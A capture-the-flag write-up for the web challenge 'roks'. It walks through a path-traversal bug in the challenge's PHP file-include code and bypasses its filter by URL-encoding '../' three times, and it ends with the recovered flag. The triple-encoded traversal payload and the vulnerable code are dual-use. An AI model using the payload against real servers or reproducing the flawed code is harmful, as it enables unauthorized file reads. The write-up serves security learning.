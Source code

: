 **Name: Sen0rC4**

**Challenge Name: roks**

**Category: Web**

**Points: 100**

## Challenge:

My rock enthusiast friend made a website to show off some of his pictures. Could you do something with it?
Attachments

[roks.zip](files/roks.zip) 

## Approach:

When going to the site you are greeted by a button that picks a random picture of a rock.

If you intercept the request with burp, we see it uses ==file== inclusion. So I am thinking path traversal.

```GET /file.php?file=image4 HTTP/1.1
Host: roks.chal.imaginaryctf.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://roks.chal.imaginaryctf.org/
Cookie: _ga_0LKSSBL38W=GS1.1.1690084714.5.1.1690084784.0.0.0; _ga=GA1.1.865862315.1690061016; _ga_BHMLHVLGF2=GS1.1.1690079570.3.0.1690079574.0.0.0```

However, when we try to path traverse we recieve the ==stop hacking you hackers== image.

/file.php?file=../../../../../../flag.png == stop hacking you hackers

Lets take a look at the provided source code:


```<?php
  $filename = urldecode($_GET["file"]);
  if (str_contains($filename, "/") or str_contains($filename, ".")) {
    $contentType = mime_content_type("stopHacking.png");
    header("Content-type: $contentType");
    readfile("stopHacking.png");
  } else {
    $filePath = "images/" . urldecode($filename);
    $contentType = mime_content_type($filePath);
    header("Content-type: $contentType");
    readfile($filePath);
  }
?>```

Website dosent allow "." or "/"

looks like it urldecodes once to check for . and /

it then decodes again to grab the rok file name

So we should url encode our request url twice to make sure it dosent see our "." or "/".

CyberChef will encode "." if you check the "encode all special characters

It also allows you to string together multiple encodes.

%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252Fflag%252Epng


We still get stop hacking image

I did some more enumeration and went to robots.txt and we see the site is made with apache.... which url decodes once before the site sees the request

If we url encode 3 times we should be able to path traverse

request sent: http://roks.chal.imaginaryctf.org/file.php?file=%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252Fflag%25252Epng

flag: `ictf{tr4nsv3rs1ng_0v3r_r0k5_6a3367}``